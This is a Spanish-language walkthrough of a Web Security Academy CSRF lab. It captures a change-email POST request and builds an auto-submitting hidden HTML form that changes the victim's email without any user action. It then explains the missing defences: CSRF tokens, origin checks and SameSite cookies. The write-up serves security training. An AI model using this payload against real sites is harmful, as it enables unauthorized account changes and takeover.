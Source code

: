 ![20250710015535.png](20250710015535.png)

## LAB

En el sitio web, podremos actualizar el email del usuario **wiener**

![20250708010135.png](20250708010135.png)

Interceptaremos  la request de la accion de cambiar el correo del usuario.

![20250708010510.png](20250708010510.png)

aquí vemos que hace una petición post y entre los parámetros tenemos el **emali**

Analicemos la request que se envía por **post**

```c
POST /my-account/change-email HTTP/2
Host: 0acb0045037f45e1829e971f00920092.web-security-academy.net
Cookie: session=Z8mmAb0GNbL6Y4wx4azFEHLmsfflT37z
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0acb0045037f45e1829e971f00920092.web-security-academy.net
Dnt: 1
Sec-Gpc: 1
Referer: https://0acb0045037f45e1829e971f00920092.web-security-academy.net/my-account?id=wiener

Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=test%40test.com
```

Método: POST
URL completa: https://0acb0045037f45e1829e971f00920092.web-security-academy.net/my-account/change-email
Parámetro en el body: email=test@test.com (%40 es @)
Content-Type: application/x-www-form-urlencoded (el que usa un formulario HTML normal)

Teniendo en cuenta esta información, vamos a construir nuestro código malicioso

```c
<html>
  <body>
    <form action="https://0acb0045037f45e1829e971f00920092.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test@test.com" />
      <input type="submit" value="Enviar petición" />
    </form>

    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

```html
<form action="URL completa extraída" method="POST">
```

Y dentro del formulario, agregué el único parámetro:

```html
<input type="hidden" name="email" value="test@test.com" />
```

Este `input` está oculto (para que el usuario no lo vea) y simula exactamente el parámetro enviado en la petición original.

Para que el ataque ocurra **sin intervención del usuario**, se necesita enviar el formulario automáticamente. Para eso se usa JavaScript:

```html
<script>   document.forms[0].submit(); </script>
```

Esto selecciona el primer formulario (`forms[0]`) y ejecuta `.submit()` para enviarlo.

Ahora debemos dirigirnos al servidor del atacante y copiar el código anterior.

![20250708014330.png](20250708014330.png)


### ¿Qué tipo de seguridad está ausente?

Un sitio vulnerable a CSRF no implementa una o más de estas defensas clave:

1. Token CSRF (o Anti-CSRF token) — AUSENTE
El sitio debería generar un token único por sesión y requerir que cada formulario POST lo incluya.

El servidor debe validar ese token en cada acción crítica.

Como el atacante no puede leer el token (por política de mismo origen), no puede falsificarlo.

2. Cabeceras personalizadas o CORS restringido — AUSENTE
Si el backend acepta peticiones desde cualquier origen (sin validación de Origin o Referer), permite CSRF.

En cambio, un backend seguro debería validar que las solicitudes vienen de su propio dominio.

3. SameSite Cookies — MAL CONFIGURADAS o AUSENTES
Las cookies modernas pueden incluir SameSite=Lax o SameSite=Strict.

Lax previene CSRF en la mayoría de formularios.

Strict lo bloquea incluso en enlaces.

Si la cookie está configurada como SameSite=None sin Secure, el navegador la enviará en cualquier contexto, permitiendo CSRF.

